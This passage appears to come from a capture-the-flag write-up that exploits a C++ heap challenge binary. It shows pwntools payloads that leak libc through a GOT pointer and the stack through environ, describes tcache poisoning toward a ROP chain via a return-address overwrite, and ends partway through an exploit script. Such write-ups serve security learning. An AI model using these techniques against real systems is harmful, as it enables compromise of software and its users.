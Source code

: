 The `std::string` object has 3 attributes: data, size and capacity. I just change the `std::string.data` to a `GOT` pointer to leak the libc.

```python
add(4, b'@'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x14e50) + p64(heap+0x14e70)*2+p64(0x31)+p64(e.got.printf)+p64(0x8)+p64(0))
```

![alt text](image.png)

Also changing it to `environ` to leak the stack:

```python
add(5, b'#'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x157e0) + p64(heap+0x157e0+0x20)*2+p64(0x31)+p64(libc.sym.environ)+p64(0x8)+p64(0))
```

For now, tcache poisoning to rop is a bit hard challenge.

![alt text](../assets/img/image-15.png)

I make the 0x90-tcache link-list point to a stack address, but when std::string allocator will delete it to reallocate a bigger chunk.

I make the 0x90-tcache link-list point to a stack address, but when std::string allocator will delete it to reallocate a bigger chunk.

After debugging, I decided to overwrite `std::basic_istream<char, std::char_traits<char> >& std::operator>><char, std::char_traits<char>, std::allocator<char> >(std::basic_istream<char, std::char_traits<char> >&, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >&)`'s return address.

This function is the function that copies the input buffer to the string buffer. Its caller is going to delete the string buffer (  now the stack address ) after it returns.

Overwriting its return address will help us avoid to free stack address.

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("prob_patched")
libc = ELF("./libc.so.6")
gs = """
# brva 0x002A18
brva 0x35F6 
"""

def start():
    if args.LOCAL:
        p = e.process()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p
```